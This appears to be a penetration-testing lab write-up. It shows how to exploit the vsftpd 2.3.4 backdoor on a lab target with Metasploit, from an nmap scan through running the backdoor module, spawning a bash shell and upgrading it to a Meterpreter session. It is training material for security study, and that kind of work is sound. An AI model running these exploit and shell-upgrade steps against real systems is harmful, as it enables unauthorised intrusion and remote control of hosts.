



# 🔬FTP - MSF Exploit

## Lab 1

>  🔬 [Vulnerable FTP Server](https://www.attackdefense.com/challengedetailsnoauth?cid=179)
>
>  - Target IP: `192.80.80.3`
>  - Exploit the target with the appropriate Metasploit Framework module
>  - [vsftpd 2.3.4 - Backdoor Command Execution](https://www.exploit-db.com/exploits/49757)

```bash
ip -br -c a
service postgresql start && msfconsole -q
```

```bash
db_status
setg RHOSTS 192.80.80.3
setg RHOST 192.80.80.3
workspace -a vsftpd2.3.4
```

- Perform an `nmap` scan directly into MSF

```bash
db_nmap -sS -sV -O 192.80.80.3
```



```bash
analyze # error
search vsftpd
use exploit/unix/ftp/vsftpd_234_backdoor
info
# Description:
#   This module exploits a malicious backdoor that was added to the 
#   VSFTPD download archive. This backdoor was introduced into the 
#   vsftpd-2.3.4.tar.gz archive between June 30th 2011 and July 1st 2011 
#   according to the most recent information available. This backdoor 
#   was removed on July 3rd 2011.
options
run
```

```bash
/bin/bash -i
```



- Shell to `Meterpreter` post exploitation

```bash
background
sessions
search shell_to_meterpreter
use post/multi/manage/shell_to_meterpreter
set SESSION 2
set LHOST eth1
run

sessions
sessions 3
```



------

